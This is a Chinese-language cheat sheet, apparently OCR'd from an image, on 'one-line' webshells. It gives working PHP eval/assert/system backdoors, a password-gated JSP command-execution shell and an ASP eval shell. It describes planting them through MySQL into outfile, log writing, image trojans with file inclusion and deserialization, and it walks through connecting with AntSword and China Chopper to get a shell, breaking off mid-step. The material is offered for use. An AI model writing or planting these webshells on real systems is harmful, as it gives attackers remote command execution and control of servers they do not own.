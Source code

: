 ## **0x01. 一句话木马**
PHP一句话木马
可以在目标服务器上执行PHP代码,并和客户端(如菜刀、Cknife、冰蝎、蚁剑）配合getshell，俗称小马
^
php如果没有禁用一些函数
eval(x)      5<php<7.2默认开启
assert(x)   php<7.0默认开启
```
上传.php文件：
<?php eval('system(whoami);'); ?>
<?php eval($_GET[1]); ?>
<script language="php">@eval($_POST["pass"])</script>

php5-7
<?php @eval($_POST['attack']);?>
<?php @eval($_POST['1']);?>
@错误不报
php5
<?php assert($_GET['1']); ?>


<?php 
error_reporting(0);//不报错
highlight_file(__FILE__);
var_dump($_REQUEST['1']);
eval($_REQUEST['1']);
 ?>
访问?1=system('ls /');

<?php echo phpinfo(); ?>
<?php system($_GET['2']);?>
```
```
jsp:
<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>

传x和i
<% if("x".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");
} %>


一行
<% if("x".equals(request.getParameter("pwd"))){java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");} %>


asp:
<%eval request("cmd") %>
```
aspx：<https://www.cnblogs.com/donglian1/p/13942742.html>
其他常见一句话木马：<https://www.cnblogs.com/ash-33/p/16397536.html>


^
## **0x02. 木马注入方式**

### **1**. 以文件的形式上传到服务器端
上传文件可以利用MySQL的into outfile、表单文件上传等方式上传

### **2**. 以字符串的形式上传到服务器端
通过MySQL的日志方式、shell的echo方式、命令执行、反序列化等方式写入一句话代码，可写入新文件或者已存在的页面

### **3**.图片马+文件包含漏洞
通过上传图片马，结合文件包含漏洞上传webshell;


^
## **0x03. getshell**
上传一句话木马后，找到文件上传的地址

1. 中国蚁剑
设置的入口为eval($_POST["密码"];);，必须为eval的post。
使用中国蚁剑，右击加链接，连接密码(POST参数名)
getshell
双击进行文件管理
右击可选择终端界面
蚁剑可配置代理查看每次请求包
^
2. 中国菜刀
设置的入口为assert($_GET),assert($_POST)。